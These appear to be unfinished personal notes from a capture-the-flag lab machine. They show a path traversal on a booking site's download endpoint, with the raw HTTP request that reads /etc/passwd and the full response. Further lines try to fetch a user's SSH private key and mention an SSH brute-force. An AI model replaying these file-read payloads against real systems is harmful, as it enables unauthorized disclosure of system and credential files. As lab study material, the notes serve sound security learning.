 
webpage
![[Images/Pasted image 20250319144627.png]]

the only thing we can do on the site is booking, which downloads a file

```sh
┌──(fixit㉿asusx555b)-[~/Downloads]
└─$ cat aa1bd345-7ac5-45bc-a2cd-6480b427ec5b.json 
{"name": "a", "email": "test@test.test", "phone": "1", "date": "2025-03-10", "cabin": "Standard"} 

┌──(fixit㉿asusx555b)-[~/Downloads]
└─$ cat ce46a69d-fd79-496d-8078-d2bd72eef52a.json 
{"name": "'", "email": "test@test.test", "phone": "1", "date": "2025-03-10", "cabin": "Standard"}
```

this appears to be files that are downloaded so testing if we can download system files

lfi /etc/passwd

```http
GET //download?ticket=/etc/passwd HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.7,sv;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Priority: u=0, i
```

```http
HTTP/1.1 200 OK
Date: Mon, 17 Mar 2025 12:57:10 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Disposition: attachment; filename="/etc/passwd"
Content-Type: application/octet-stream
Content-Length: 1951
Last-Modified: Fri, 07 Feb 2025 11:16:19 GMT
Cache-Control: no-cache
ETag: "1738926979.4294043-1951-393413677"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

only one line with /bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash

try ssh bruteforce?

found dev.titanic.htb
gitea 1.22.1 site
found no vulns in this version
also http://dev.titanic.htb/api/swagger

/etc/home/developer/.ssh/id_rsa
"error":"Ticket not found"

we get he same error when

Also found:
![[Images/Pasted image 20250319144819.png]]
